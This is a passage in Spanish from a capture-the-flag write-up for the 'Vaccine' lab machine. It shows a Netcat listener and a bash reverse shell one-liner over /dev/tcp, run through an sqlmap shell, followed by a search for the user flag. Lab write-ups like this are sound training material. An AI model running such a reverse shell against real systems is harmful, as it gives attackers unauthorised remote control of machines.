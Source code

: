 ### Reverse Shell

Aprovechando lo anterior, procedo a ejecutar una **reverse shell**. En primer lugar, se coloca en escucha a **Netcat** en el puerto 443 con el comando `sudo nc -lvnp 443`

![Vaccine Yw4rf](vaccine-24.png)

Luego de aquello, en la shell de sqlmap ejecutamos el siguiente comando: `bash -i >& /dev/tcp/10.10.14.176/443 0>&1`

![Vaccine Yw4rf](vaccine-25.png)

Comprobamos la terminal donde iniciamos **Netcat** y efectivamente la **reverse shell** funcionó correctamente:

![Vaccine Yw4rf](vaccine-26.png)

Una vez dentro del sistema utilizo el comando `find / -name user.txt 2>/dev/null` para encontrar la ubicación de la flag `user.txt` 

![Vaccine Yw4rf](vaccine-27.png)
